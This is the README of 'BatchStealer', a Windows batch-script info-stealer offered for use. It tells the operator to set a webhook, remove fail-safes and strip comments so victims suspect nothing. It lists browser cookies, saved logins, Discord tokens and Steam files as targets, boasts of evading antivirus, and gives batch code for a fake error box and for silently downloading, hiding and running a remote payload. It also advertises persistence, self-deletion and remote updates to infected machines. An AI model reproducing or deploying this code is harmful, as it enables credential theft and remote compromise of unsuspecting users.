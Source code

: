 # BatchStealer | [BatchStealer Example](https://github.com/Takaovi/BatchStealer-Example)

## [Get The Automatic Builder](https://github.com/Takaovi/BSBuilder) ❤️

### 📜 A batch script for taking things and sending them to a webhook 

3.4.2021 < FUD [(Virustotal)](https://www.virustotal.com/gui/file/6dfc563da383268f927fd90834afe1f2b5757933ea7527029c94f5aa6ab08c0d/detection)

![Made with love in Finland](https://madewithlove.now.sh/fi?heart=true&colorB=%23387fdc&template=plastic)

# How to use

### ⚠️ Windows 10 build 17063, or later (*cURL* is included)

1. Change the webhook to yours.
2. Remove the fail-safes. ("goto xxx")
3. Run the batch file.

### ❌ Get rid of the comments 📝
* Do a regex search on notepad++, match `^::.*\n` and replace with nothing.

### ⛔ Avoid
* Just changing the webhook and doing nothing else. 
  * If the batch file does nothing the user will open it to see what's wrong.

# Features

### 💉 Steals

*Almost everything is encrypted, I haven't had the patience to do that on a batch file*

 <details>
  <summary>Full system information</summary>
 
   * OS Name & Version
   * Product ID
   * System Manufacturer
   * Processor(s)
   * BIOS Version
   * Time Zone
   * Total Physical Memory
   * Network Card(s)
   * And more...
</details>
<details>
  <summary>Chrome</summary>
 
  * Cookies
  * History
  * Shortcuts
  * Bookmarks
  * Login Data
</details>
<details>
  <summary>Opera</summary>
 
  * Cookies
  * History
  * Shortcuts
  * Bookmarks
  * Login Data
</details>
<details>
  <summary>Vivaldi</summary>
 
  * Cookies
  * History
  * Shortcuts
  * Bookmarks
  * Login Data
</details>
<details>
  <summary>Firefox</summary>
 
  * Logins
  * key3
  * key4
  * Cookies (Plain text!)
</details>
<details>
  <summary>osu!</summary>
 
 * osu!.cfg
</details>
<details>
  <summary>Discord</summary>
 
  * File containing a Token
  * Other various files
</details>
<details>
  <summary>Steam</summary>
 
  * Logged in users (Username, email)
  * Hidden ssfn files
</details>
<details>
  <summary>Minecraft</summary>
 
* Launcher profiles and accounts
</details>
<details>
  <summary>Growtopia</summary>
 
  * Save.dat
</details>

# Other manually addable features

Skip run by Task Scheduler
```batch
if not "%~dp0"=="%vpath%\" (
:: Your code not to get recurred
)
```

Fake error message
```batch
set "vpath="
...

:: FAKE ERROR MESSAGE | REMOVE GOTO IF YOU WANT IT TO DISPLAY
:: ----------------------------------------------------------
goto skipfakeerror
if not "%~dp0"=="%vpath%\" (
start /min /b mshta vbscript:Execute("Msgbox(""Bodytext""+vbCrLf+vbCrLf+""Anotherbody""),16,""Titletext"":window.close")
)
:skipfakeerror

...
```

Download & run payload
```batch
set "vpath="
set "webhook="

cd %vpath%
...

:: PAYLOAD - REMOVE GOTO IF YOU WANT THE SCRIPT TO DOWNLOAD AND RUN A FILE SOMEWHERE
:: ---------------------------------------------------------------------------------
goto skipcustomdownload
	set "customdownloadurl=https://external.ext/file.exe"
        set "customfilename=c.exe"
	curl --silent --output /dev/null -i -H "Accept: application/json" -H "Content-Type:application/json" -X POST --data "{\"content\": \"```Downloading and starting a custom file from\n%customdownloadurl% to %vpath%\%customfilename%```\"}" %webhook%
	IF EXIST "%customfilename%" GOTO waitloop4
	curl --silent -L --fail "%customdownloadurl%" -o "%customfilename%"
	>NUL attrib "%vpath%\%customfilename%" +h
	:waitloop4
	IF EXIST "%customfilename%" GOTO waitloopend4
	timeout /t 5 /nobreak > NUL
	:waitloopend4
	2> NUL start "%customfilename%"
:skipcustomdownload

...
```

# 📑 Other features 

  * Delete itself after execution

  * Add itself to Task Scheduler (CMD window will be invisible when executed)
     * Will make files to `C:\ProgramData` by default. (Hidden)

  * Push updates to infected machine(s) **(Beta, expect bugs and crashes)**
    * Make sure to have a working batch file's source on the link, it will replace everything.
    * Ability to target specific users (Check username)
    
  * Take screenshot


### Included on the [Automatic Builder](https://github.com/Takaovi/BSBuilder)
  * Add garbage code (Confuse/Fill)

  * ~~Obfuscate~~ Not made yet.

# Todo
* DNS poisoning
  * Simple edit of the hosts file (Would require administrator)
* Other interesting stuff...

# 💡 Support

* If you want to support the project do a pull request.
  * The pull request could be a new steal etc.

# ㊙️ Obfuscation (Read carefully)
* You can try [this](https://github.com/SkyEmie/batch-obfuscator)
  * RECURRING DOES NOT WORK WITH THIS. (Script exits when it reaches it)
  * "START AS ADMINISTRATOR" WILL GENERATE A VISIBLE ERROR MESSAGE ON THE CMD BOX.

# Thanks

* [Screenshot-cmd (github)](https://github.com/chuntaro/screenshot-cmd)
# Legal

None of the authors, contributors, or anyone else connected with this open source project, in any way whatsoever, can be responsible for your use of the information or the application contained in or linked from this repository.

Under Section 107 of the Copyright Act 1976, allowance is made for "fair use" for purposes such as criticism, comment, news reporting, teaching, scholarship and research. Fair use is a use permitted by copyright statute that might otherwise be infringing. Non-profit, educational or personal use tips the balance in favor of fair use.

If you don't agree with any of our disclaimers above, do not read the code or download anything from our repository as you have no permission to read and explore our repository until you agree.
